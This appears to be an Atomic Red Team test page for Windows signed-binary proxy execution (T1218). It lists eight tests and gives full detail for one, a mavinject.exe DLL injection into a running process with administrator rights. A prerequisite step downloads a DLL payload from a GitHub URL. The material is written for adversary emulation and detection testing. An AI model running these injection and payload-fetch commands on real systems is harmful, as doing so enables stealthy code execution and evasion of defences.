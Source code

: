 - [Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code](#atomic-test-2---syncappvpublishingserver---execute-arbitrary-powershell-code)

- [Atomic Test #3 - Register-CimProvider - Execute evil dll](#atomic-test-3---register-cimprovider---execute-evil-dll)

- [Atomic Test #4 - Msiexec.exe - Execute Local MSI file](#atomic-test-4---msiexecexe---execute-local-msi-file)

- [Atomic Test #5 - Msiexec.exe - Execute Remote MSI file](#atomic-test-5---msiexecexe---execute-remote-msi-file)

- [Atomic Test #6 - Msiexec.exe - Execute Arbitrary DLL](#atomic-test-6---msiexecexe---execute-arbitrary-dll)

- [Atomic Test #7 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-7---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #8 - InfDefaultInstall.exe .inf Execution](#atomic-test-8---infdefaultinstallexe-inf-execution)


<br/>

## Atomic Test #1 - mavinject - Inject DLL into running process
Injects arbitrary DLL into running process specified by process ID. Requires Windows 10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to inject | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;x64&#92;T1218.dll|
| process_id | PID of process receiving injection | string | 1000|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
mavinject.exe #{process_id} /INJECTRUNNING #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```

